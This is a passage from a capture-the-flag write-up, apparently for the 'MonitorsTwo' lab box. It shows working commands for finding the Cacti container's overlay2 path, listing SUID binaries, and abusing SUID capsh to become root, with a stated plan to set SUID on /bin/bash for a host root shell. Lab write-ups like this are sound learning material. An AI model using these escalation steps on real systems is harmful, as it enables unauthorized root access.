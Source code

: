 We must figure out which one is associated with the `Cacti` app, since our containerized shell session is within that. We can do that by creating a file from within our containerized shell session (our initial foothold), and then check if this file is available from outside the container with `marcus`.

```bash
# move to the tmp directory and create a file
www-data@50bca5e748b0:/var/www/html$ cd /tmp
www-data@50bca5e748b0:/tmp$ touch test
```

The heaviest contents are usually images and if the default storage driver `overlay2` is used, then these Docker images are stored in `/var/lib/docker/overlay2` ([freecodecamp](https://www.freecodecamp.org/news/where-are-docker-images-stored-docker-container-paths-explained/)). Therefore, we really need to check just 2 out of the 4 container paths found above:

We can check each these 2 containers in sequence to see which one contains the `test` file:

```bash
marcus@monitorstwo:~$ ls -l /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged/tmp/test
ls: cannot access '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged/tmp/test': No such file or directory
marcus@monitorstwo:~$ ls -l /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp/test
-rw-r--r-- 1 www-data www-data 0 Jan 26 08:00 /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp/test
```

The Cacti container is: `c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1`. Now, we need to assign `SUID` permissions to `/bin/bash`, so `marcus` can execute it from outside and gain a `root` shell. In order to do that, we need to first escalate our privileges within the container. 

Let's search for `SUID` files:

```bash
www-data@50bca5e748b0:/tmp$ find / -perm -4000 2>/dev/null
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/sbin/capsh
/bin/mount
/bin/umount
/bin/su
```

The `/sbin/capsh` stands out from the above output. Searching [GTFOBins](https://gtfobins.github.io/gtfobins/capsh/#suid) we get this:

![](gtfobins.png){: .normal width="60%"}

Following GFTO's guidance:

```bash
www-data@50bca5e748b0:/tmp$ /sbin/capsh --gid=0 --uid=0 --
root@50bca5e748b0:/tmp# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```
